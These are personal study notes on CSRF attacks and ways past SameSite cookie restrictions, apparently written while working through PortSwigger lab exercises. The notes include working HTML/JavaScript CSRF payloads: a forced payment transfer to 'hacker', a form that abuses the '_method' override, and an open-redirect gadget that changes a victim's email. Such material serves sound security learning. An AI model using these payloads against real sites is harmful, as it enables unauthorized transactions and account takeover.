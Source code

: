 [[CSRF]]

TLD (top level domain) = `.com`, `.net`
TLD+1 = `example.com`
Same site = same scheme and same TLD+1
e.g. http://app.example.com and http://intra.example.com

Origin: scheme://app.example.com:443
Site: https://example.com

SameSite levels:
* Strict
* Lax
* None

SameSite=Strict will not send this cookie in any cross-site requests.

SameSite=Lax allows some cross-site requests, but only if both of the conditions are met:
* `GET` method
* Request resulted from a top-level navigation by the user, such as clicking on a link

SameSite=None - no restrictions, browser will send cookies in all requests
When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

# Bypass using GET
```html
<script>
document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="GET">
	<input type="hidden" name="_method" value="_POST_">
	<input type="hidden" name="recipient" value="hacker">
	<input type="hidden" name="amount" value="1000000">
</form>
```

## Bypassing using on-site gadgets
One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters. Example: [[Open redirection]]
It works only with client-side redirects.
Example
```html
<script>
window.location.replace('https://0a45008403ba507480fc087a00de00d7.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=newMail%40gmail.com%26submit=1');
</script>
```

## Bypassing via vulnerable sibling domains
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain
#to-be-continued 